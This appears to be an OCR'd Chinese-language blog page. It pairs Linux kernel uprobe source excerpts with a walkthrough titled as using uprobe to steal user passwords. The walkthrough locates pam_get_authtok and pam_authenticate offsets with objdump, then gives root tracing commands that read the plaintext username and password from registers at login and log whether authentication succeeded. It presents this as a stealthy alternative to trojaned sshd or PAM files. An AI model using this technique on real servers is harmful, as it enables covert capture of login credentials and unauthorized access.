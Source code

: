 ```c
		return -ENOMEM;
	if (IS_ERR(uprobe))
		return PTR_ERR(uprobe);

	/*
	 * We can race with uprobe_unregister()->delete_uprobe().
	 * Check uprobe_is_active() and retry if it is false.
	 */
	down_write(&uprobe->register_rwsem);
	ret = -EAGAIN;
	if (likely(uprobe_is_active(uprobe))) {
		consumer_add(uprobe, uc);
		ret = register_for_each_vma(uprobe, uc);
		if (ret)
			__uprobe_unregister(uprobe, uc);
	}
```
`register_for_each_vma`在对应的uprobe文件的进程内存map偏移处下断点（和kprobe类似）
```c
		if (is_register) {
			/* consult only the "caller", new consumer. */
			if (consumer_filter(new,
					UPROBE_FILTER_REGISTER, mm))
				err = install_breakpoint(uprobe, mm, vma, info->vaddr);
		}
```
##### 利用uprobe窃听用户密码
如何无痕的窃取Linux服务器密码
云上常见的窃取服务器密码的方式基本都是“插马”，在`ssh/sshd/pam.so`等文件的用户认证函数中插入一段代码，将认证成功的密码记录在某个文件中或者`curl`外带出去。这种做法很常见，但是很容易被识破，毕竟基础文件被更改了。
那有没有办法做到非侵入式的呢，当然有的，`uprobe`就是一个很好的选择。
uprobe是linux提供的众多trace机制之一，可以用于trace用户态程序、文件的执行。
基本的语法我就不多介绍了，推荐直接读官方文档`uprobetracer.rst`。

uprobe的实现原理和kprobe类似，都是在内存中修改指定函数地址指令为`int 3`，

pam认证的流程也不多讲了，关键的两个api: `pam_authenticate`和`pam_get_authtok`
pam_get_authtok执行完后rdi寄存器指向`pam_handle`结构体，该结构体偏移`48`位置就是认证的用户名`user`；
`rdx`寄存器指向`authtok`，此时是明文的密码；
pam_authenticate的返回值标记了此次认证是否成功。

那么我的思路就是：
uretprobe pam_get_authtok 获取用户名密码，uretprobe获取pam_authenticate返回值判断是不是认证成功（ret=0x0时）
首先获取这两个函数在libpam文件的偏移
```
tree@tree-pc:~/code$ objdump -S /lib/x86_64-linux-gnu/libpam.so.0 | grep pam_authenticate
0000000000003900 <pam_authenticate@@LIBPAM_1.0>:
```
tree@tree-pc:~/code$ objdump -S /lib/x86_64-linux-gnu/libpam.so.0 | grep pam_get_authtok
    3eba:       e8 81 34 00 00          callq  7340 <pam_get_authtok_verify@@LIBPAM_EXTENSION_1.1.1+0x1950>
    4747:       e8 a4 2a 00 00          callq  71f0 <pam_get_authtok_verify@@LIBPAM_EXTENSION_1.1.1+0x1800>
00000000000059c0 <pam_get_authtok@@LIBPAM_EXTENSION_1.1>:
```
接下来就是uprobe跟踪这两个函数，获取我们想要的信息
```
root@tree-pc:/home/tree/code/tracepoint/uprobe# echo 'r /lib/x86_64-linux-gnu/libpam.so.0:0x59c0 username=+u0(+u48(%di)):string password=+u0(+u0(%dx)):string' > /sys/kernel/tracing/uprobe_events 
root@tree-pc:/home/tree/code/tracepoint/uprobe# echo 'r /lib/x86_64-linux-gnu/libpam.so.0:0x3900 ret=$retval' >> /sys/kernel/tracing/uprobe_events 
root@tree-pc:/home/tree/code/tracepoint/uprobe# echo 1 > /sys/kernel/tracing/events/uprobes/p_libpam_0x59c0/enable
root@tree-pc:/home/tree/code/tracepoint/uprobe# echo 1 > /sys/kernel/tracing/events/uprobes/p_libpam_0x3900/enable